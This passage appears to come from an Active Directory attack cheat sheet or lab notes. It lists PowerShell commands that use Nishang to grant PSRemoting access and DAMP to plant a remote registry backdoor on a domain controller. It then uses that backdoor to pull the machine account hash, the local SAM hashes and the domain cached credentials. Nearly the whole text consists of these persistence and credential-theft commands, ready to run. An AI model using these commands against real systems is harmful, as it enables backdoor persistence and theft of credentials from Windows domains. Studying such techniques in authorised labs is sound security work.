 Allow PSRemoting access permission on local machine for STUDENT1:

```powershell
# Nishang
Set-RemotePSRemoting -UserName "STUDENT1" -Verbose
```

Allow PSRemoting access permission on a remote machine for STUDENT1 without credentials:

```powershell
# Nishang
Set-RemotePSRemoting -UserName "STUDENT1" -ComputerName "cyberlab-dc" -Verbose
```

Remove PSRemoting access permission on a remote machine for STUDENT1:

```powershell
# Nishang
Set-RemotePSRemoting -UserName "STUDENT1" -ComputerName "cyberlab-dc" -Remove
```

## Remote Registry

Using DAMP, with admin privileges on a remote machine, it is possible to implement a new remote registry backdoor that allows for the remote retrieval of a system"s machine and local account hashes, as well as its domain cached credentials.

```powershell
# DAMP
. .\Add-RemoteRegBackdoor.ps1
Add-RemoteRegBackdoor -ComputerName "cyberlab-dc" -Trustee "STUDENT1" -Verbose
```

As STUDENT1, abuse the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve:

1. The machine account hash for the specified machine:
    
    ```powershell
    # DAMP
    . .\RemoteHashRetrieval.ps1
    Get-RemoteMachineAccountHash -ComputerName "cyberlab-dc" -Verbose
    ```
    
2. The local SAM account hashes for the specified machine:
    
    ```powershell
    # DAMP
    . .\RemoteHashRetrieval.ps1
    Get-RemoteLocalAccountHash -ComputerName "cyberlab-dc" -Verbose
    ```
    
3. The domain cached credentials for the specified machine:
    
    ```powershell
    # DAMP
    . .\RemoteHashRetrieval.ps1
    Get-RemoteCachedCredential -ComputerName "cyberlab-dc" -Verbose
    ```
---